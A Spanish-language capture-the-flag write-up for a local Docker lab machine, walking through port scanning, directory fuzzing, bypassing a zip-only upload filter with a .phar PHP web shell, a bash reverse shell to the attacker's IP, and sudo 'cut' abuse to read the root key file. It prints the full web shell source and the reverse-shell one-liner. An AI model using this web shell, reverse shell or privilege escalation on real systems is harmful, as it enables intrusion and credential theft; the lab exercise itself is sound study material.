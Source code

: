 Fecha: 13/08/2024

Comienzo haciendo nmap, veo solo un apache no vulnerable en el 80.

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
[Anonymouspingu](Anonymouspingu.md)```

Hago fuzzing y encuentro varias páginas: 

```
feroxbuster -u http://172.17.0.2 -x php -x html -x txt -x js -x py -w /usr/share/wordlists/directory-list-2.3-medium.txt -o fuzzing --threads 300 
```

![](Imágenes/Pasted%20image%2020240813180751.png)
En http://172.17.0.2/machine.php encuentro que puedo subir archivos. Por tanto, intentaré un #LFI (Local File Inclusion). Pruebo con un txt y veo que solo me deja subir .zips. Interceptaré la petición con burpsuite para engañarle y subir algún archivo .php. Por lo que he visto en otros writeups, esto se llama `Arbitrary File Upload`


```
# Creo un php con el que podré ejecutar comandos remotas: 
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

![](Imágenes/Pasted%20image%2020240813182943.png)

En un principio esta es la petición. Voy a hacer que la máquina se piense que es un zip. Para ello, veo que hay distintas terminaciones de los archivos php: **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

Al parecer, phar es un conjunto de phps comprimidos, por lo que cuela y se sube. Ahora, podré ver ese archivo en http://172.17.0.2/uploads/script.phar y escribir los comandos que quiera:

![](Imágenes/Pasted%20image%2020240813184507.png)

![](Imágenes/Pasted%20image%2020240813184615.png)


Creo una shell que captaré desde mi máquina: 

```
# En mi máquina (192.168.1.63):

nc -lnvp 443

# En la shell de php: 

bash -c "bash -i >&/dev/tcp/192.168.1.63/443 0>&1"

```

Y ya estoy dentro:

![](Imágenes/Pasted%20image%2020240813185112.png)

Tanto con cut como grep puedo leer archivos como si fuera superusuario. 

![](Imágenes/Pasted%20image%2020240813185352.png)

Voy mirando directorios, y encuentro que en /opt/ hay un archivo: 

![](Imágenes/Pasted%20image%2020240813185538.png)

Uso https://gtfobins.github.io/gtfobins/cut/#sudo para leer el contenido: 

```
LFILE=/opt/nota.txt
sudo cut -d "" -f1 "$LFILE"

# Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

LFILE=/root/clave.txt
sudo cut -d "" -f1 "$LFILE"

# dockerlabsmolamogollon123

```

![](Imágenes/Pasted%20image%2020240813185747.png)
